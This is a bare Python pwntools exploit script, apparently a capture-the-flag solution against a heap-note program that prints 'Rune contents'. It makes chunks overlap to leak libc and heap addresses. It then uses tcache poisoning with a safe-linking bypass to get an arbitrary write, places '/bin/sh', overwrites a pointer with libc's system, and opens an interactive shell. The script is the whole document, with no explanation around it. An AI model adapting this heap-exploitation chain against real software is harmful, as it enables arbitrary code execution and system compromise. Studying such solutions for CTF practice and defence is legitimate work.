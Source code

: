 ```python
p=start()
create(p64(0),0x60,b"0"*0x60)
create(p64(0x01),0x10,b"1"*0x10)
for i in range(2,0x20):
    create(p64(i),0x60,b"X"*0x60)
create(p64(0x20),0x10,b"Y"*0x10)
edit(p64(0x01),p64(0x30)[::-1],b"B"*0x10+p64(0xd21))
delete(p64(0x2))
create(p64(0x2),0x60,b"X"*0x60)
show(p64(0x3))
p.recvuntil(b"Rune contents:\n\n")
libc.address=u64(p.recv(6)+b"\0\0")-(libc.sym.main_arena+96)
log.info(f"libc @ {hex(libc.address)}")
delete(p64(0x2))
edit(p64(0x30),p64(0x31)[::-1],b"B"*0x10+b"C"*0x8)
show(p64(0x31))
p.recvuntil(b"C"*8)
heap=u64(p.recv(5)+b"\0\0\0") << 12
log.info(f"heap @ {hex(heap)}")
target_chunk=heap+0x330
edit(p64(0x31),p64(0x1)[::-1],b"B"*0x10+p64(0x71))
create(p64(2),0x60,b"X"*0x60)
delete(p64(0x4))
delete(p64(0x2))
target_abs=libc.address+0x1f2098
edit(p64(0x1),p64(0x31)[::-1],b"B"*0x10+p64(0x71)+p64((target_chunk >> 12) ^ (target_abs-0x18)))
create(p64(2),0x60,b"/bin/sh\x00")

create(p64(4),0x60,p64(0)*2+p64(libc.sym.system))
p.sendline(b"4")
p.recv()
if args.LOCAL:
    p.interactive() # press Ctrl+C
p.sendline(p64(2))
p.interactive()
```
